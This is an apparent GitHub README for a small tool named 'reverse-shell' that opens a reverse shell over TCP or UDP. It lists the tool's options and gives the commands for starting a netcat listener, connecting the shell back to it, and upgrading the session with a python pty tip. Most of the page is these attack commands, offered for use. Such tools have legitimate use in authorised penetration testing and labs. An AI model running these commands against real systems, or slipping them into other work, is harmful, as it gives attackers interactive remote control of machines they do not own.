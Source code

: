 # reverse-shell

A simple reverse shell over TCP or UDP.

## Usage

```
usage: reverse-shell [options] <host> <port>
options:
	-h         : display this and exit
	-v         : display version and exit
	-f         : foreground mode (eg: no fork)
	-4         : use IPv4 socket
	-6         : use IPv6 socket
	-s <shell> : give the path shell (default: /bin/sh)
	-u         : use an UDP socket
```

## Example

On the 'client' side, we create the listener :
```
nc -lp 4445
```
or
```
./reverse-listener 127.0.0.1 4445
```

On the 'server' side, we bind the shell to the listener :
```
./reverse-shell 127.0.0.1 4445
```

## Tip
Once you have the shell, if you want to be more confortable :
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
